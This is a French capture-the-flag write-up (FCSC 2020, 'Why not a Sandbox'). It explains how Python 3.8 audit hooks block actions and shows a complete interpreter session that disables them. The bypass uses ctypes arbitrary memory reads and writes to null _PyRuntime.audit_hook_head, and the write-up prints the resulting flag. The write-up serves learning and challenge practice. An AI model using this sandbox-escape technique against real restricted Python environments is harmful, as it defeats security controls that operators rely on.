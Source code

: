 ```yaml
---
title: "[FR] Write-up FCSC 2020 : Why not a Sandbox"
date: 2020-05-04T18:00:00+02:00
draft: false
tags:
- CTF
- FCSC
- FCSC 2020
---
```


# I - Intro
Le challenge se compose d'un interpréteur Python 3.8.2 avec lequel nous pouvons interagir via une simple connexion TCP obtenable avec `netcat`. Cet interpréteur modifié va lever une exception lorsque certaine actions sont effectuées. Il est donc impossible d'appeler `os.system` pour obtenir un shell ou d'ouvrir un fichier avec `open()`. Le but est donc d'appeler la fonction `print_flag()` qui a été ajoutée à la librairie principale de Python, qui peut être accédée via le module `ctypes`. Cependant celle-ci va aussi lever une exception.
```
$ nc challenges1.france-cybersecurity-challenge.fr 4005
Arriverez-vous à appeler la fonction print_flag ?
Python 3.8.2 (default, Apr  1 2020, 15:52:55)
[GCC 9.3.0] on linux
>>> import os
Exception ignored in audit hook:
Exception: Action interdite
Exception: Module non autorisé
Traceback (most recent call last):
  File "<stdin>", line 1, in <module>
Exception: Action interdite
>>> open("/etc/passwd", "r")
Traceback (most recent call last):
  File "<stdin>", line 1, in <module>
Exception: Action interdite
>>> import ctypes
>>> ctypes.pythonapi.print_flag()
Exception: Nom de fichier interdit
Traceback (most recent call last):
  File "<stdin>", line 1, in <module>
  File "/usr/lib/python3.8/ctypes/__init__.py", line 386, in __getattr__
    func = self.__getitem__(name)
  File "/usr/lib/python3.8/ctypes/__init__.py", line 391, in __getitem__
    func = self._FuncPtr((name_or_ordinal, self))
Exception: Action interdite
```

# II - Les audit hooks
Les exceptions n'apparaissent pas toutes de la même manière mais celle de `import os` indique `Exception ignored in audit hook`. L'exception est donc générée dans un audit hook. Les audit hooks sont une nouvelle fonctionnalité de Python 3.8 permettant d'exécuter une certaine fonction avant que certains évènements se produisent (Par exemple : import d'un module, appel d'une fonction, etc.). Ceux-ci sont définis dans le standard [PEP 578](https://www.python.org/dev/peps/pep-0578/).

Pour créer un audit hook, la fonction `PySys_AddAuditHook()` doit être appelée, celle-ci va ajouter le pointeur de fonction passé en paramètre dans une liste chaînée commençant par le [membre `audit_hook_head` de la structure `_PyRuntimeState`](https://github.com/python/cpython/blob/62f75fe3dd138f72303814d27183aa469eefcca6/Include/internal/pycore_runtime.h#L105). Cette structure est utilisée par l'objet global principal de l'interpréteur Python : [`_PyRuntime`](https://github.com/python/cpython/blob/252346acd937ddba4845331994b8ff4f90349625/Python/pylifecycle.c#L66).

Le but serait donc de mettre le pointeur `_PyRuntime.audit_hook_head` à `NULL` de manière à *"détruire"* la liste chaînée et rendre inefficace tous les audit hooks. Pour cela il faut connaître l'offset du membre `audit_hook_head` par rapport à `_PyRuntime`. La manière la plus simple pour le retrouver est de compiler exactement la même version de Python que celle du serveur avec le `CFLAGS` `-g` de manière à produire un binaire contenant les informations `DWARF`. Nous pouvons ensuite ouvrir cet interpréteur et y attacher un débugueur pour connaître l'offset voulu.

```
(gdb) print &(_PyRuntime.audit_hook_head)
$1 = (_Py_AuditHookEntry **) 0x788e70 <_PyRuntime+1456>
```

Donc `&_PyRuntime + 1456 == &(_PyRuntime.audit_hook_head)`.

# III - `ctypes`

`ctypes` est le module Python permettant d'utiliser des bibliothèques natives, celui-ci n'a pas été entièrement blacklisté par l'audit hook, nous pouvons donc nous servir de certaines de ses fonctions permettant des actions plutôt utiles.

`ctypes._CData.from_address()` : `ctypes` possède des classes, toutes héritantes de `_CData`, représentant différents types de données en C. On peut donc utiliser `ctypes.c_uint64.from_address(0x12345678)` pour lire un entier non signé de 64 bits à l'adresse `0x12345678`. Cette fonction permet donc d'effectuer des *arbitrary reads* dans l'espace d'adresse de python.

`ctypes.memset()` : celle-ci est plutôt claire, il s'agit de la fonction analogue à `memset(3)` en C, on peut donc s'en servir pour effectuer des *arbitrary writes* dans l'espace d'adresse de python.

`ctypes.addressof()` : Cette fonction retourne l'adresse d'un objet python, on peut donc s'en servir pour obtenir l'adresse de `_PyRuntime`. Il faut bien noter que celle-ci revoit l'adresse de l'objet Python, or `ctypes.pythonapi._PyRuntime` retournera un `_FuncPtr` permettant d'encapsuler la fonction C (bon ici ce n'est pas une fonction mais le principe reste le même), il faudra donc utiliser `ctypes.c_uint64.from_address(ctypes.addressof(ctypes.pythonapi._PyRuntime))` pour lire le premier membre du `_FuncPtr` qui correspond à la vraie adresse de `_PyRuntime`.

# IV - Exploitation finale

À l'aide des informations des paragraphes II et III, nous pouvons facilement désactiver les audit hooks et donc permettre l'appel de `print_flag()` :
```
Arriverez-vous à appeler la fonction print_flag ?
Python 3.8.2 (default, Apr  1 2020, 15:52:55) 
[GCC 9.3.0] on linux
>>> import ctypes
>>> addr_obj_run = ctypes.addressof(ctypes.pythonapi._PyRuntime)
>>> ctypes.c_uint64.from_address(addr_obj_run)
c_ulong(140211617380992)
>>> addr_run = 140211617380992
>>> ctypes.c_uint64.from_address(addr_run + 1456)
c_ulong(94195313321648)
>>> hex(94195313321648)
'0x55ab8e30a6b0'
>>> ctypes.memset(addr_run + 1456, 0, 8)
140211617382448
>>> ctypes.c_uint64.from_address(addr_run + 1456)
c_ulong(0)
>>> open("")
Traceback (most recent call last):
  File "<stdin>", line 1, in <module>
FileNotFoundError: [Errno 2] No such file or directory: ''
>>> ctypes.pythonapi.print_flag
<_FuncPtr object at 0x7f858eeeadc0>
>>> ctypes.pythonapi.print_flag()
super flag: FCSC{55660e5c9e048d988917e2922eb1130063ebc1030db025a81fd04bda75bab1c3}
83
```
